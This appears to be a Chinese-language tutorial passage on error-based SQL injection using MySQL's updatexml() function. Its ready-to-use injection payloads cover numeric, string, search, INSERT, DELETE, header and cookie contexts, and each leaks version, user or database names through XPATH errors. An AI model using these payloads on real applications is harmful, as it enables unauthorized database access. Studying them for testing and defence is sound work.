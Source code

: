 第一个参数：XML的内容
第二个参数：是需要update的位置XPATH路径
第三个参数：是更新后的内容
所以第一和第三个参数可以随便写，只需要利用第二个参数，他会校验你输入的内容是否符合XPATH格式
比如：

```sql
select * from address_book where sex=1 and updatexml(222,concat(0x7e,version()),111);
# 0x7e就是代表‘~’，concat负责连接~和version。
```

得到：

```sql
ERROR 1105 (HY000): XPATH syntax error: '~5.7.24'
```

注入例子：

```sql
# 数字型
id=1 and updatexml(1,concat(0x7e,user()),1)
SQL:select xx from user where id=1 and updatexml(1,concat(0x7e,user()),1) #;

# 字符型
user' and updatexml(1,concat(0x7e,database()),1) #
SQL:select xx from user where username='user' and updatexml(1,concat(0x7e,database()),1) #'

# 搜索型
' and updatexml(1,concat(0x7e,database()),1) #
SELECT * FROM products WHERE name LIKE '%' and updatexml(1,concat(0x7e,database()),1) #%';

# xx型
user') and updatexml(1,concat(0x7e,database()),1) #
SQL:select xx from user where username=('user') and updatexml(1,concat(0x7e,database()),1) #'

# insert型
username=sky' and updatexml(1,concat(0x7e,version()),1) or '&password=123123&sex=1&phonenum=123&email=123&add=123&submit=submit
SQL:insert into user vlues('sky' and updatexml(1,concat(0x7e,version()),1) or '',password,xx,xx,xx)

# delete型
id=61 and updatexml(1,concat(0x7e,database()),1)
SQL:delete from user where id=61 and updatexml(1,concat(0x7e,database()),1);

# Header型
pyload' or updatexml(1,concat(0x7e,version()),1) or '
SQL:insert into info vlues('pyload' or updatexml(1,concat(0x7e,version()),1) or '',xx,xx,xx,xx)

# Cookie型
Cookie: ant[uname]=admin' or updatexml(1,concat(0x7e,version()),1) or ';
ant[pw]=10470c3b4b1fed12c3baac014be15fac67c6e815; PHPSESSID=165edlt61tcbb4rtocpniultdq

SQL:insert into info vlues('admin' or updatexml(1,concat(0x7e,version()),1) or '',10470c3b4b1fed12c3baac014be15fac67c6e815,165edlt61tcbb4rtocpniultdq)
```
